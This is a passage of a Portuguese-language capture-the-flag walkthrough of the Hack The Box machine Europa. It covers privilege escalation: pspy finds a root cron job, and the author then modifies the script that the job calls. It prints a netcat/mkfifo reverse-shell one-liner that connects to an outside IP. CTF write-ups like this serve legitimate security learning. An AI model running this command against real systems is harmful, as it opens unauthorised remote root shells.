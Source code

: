 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_shell.png)

Executamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_shell1.png)

Ganhamos a reverse shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_shell2.png)

# Escalação de Privilégio

Não vou rodar nenhum script de enumeração pq não vai dar resultados satifatórios

Rodarei o PSPY pra ver se tem algum cron sendo executado

## PSPY

> https://github.com/DominicBreuker/pspy

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_pspy.png)

Passamos pra máquina e executamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_pspy1.png)

Vemos algo na pasta /var/www/cronjobs/clearlogs sendo executado como root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_pspy2.png)

Confirmamos isso verificando o arquivo /etc/cron

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_1.png)

### Verificando cronjobs

Entramos na pasta e verificamos que realmente o dono do arquivo é root e ele executa um arquivo localizado em /var/www/cmd/logcleared.sh

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_cron1.png)

Verificamos ele, modificamos pra nos dar um reverse shell de root

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.119 443 >/tmp/f
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_cron.png)

Ligamos o listener, esperamos e corremos pro abraço!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_cron2.png)

## Pegamos a flag de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_user.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-europa/E_root.png)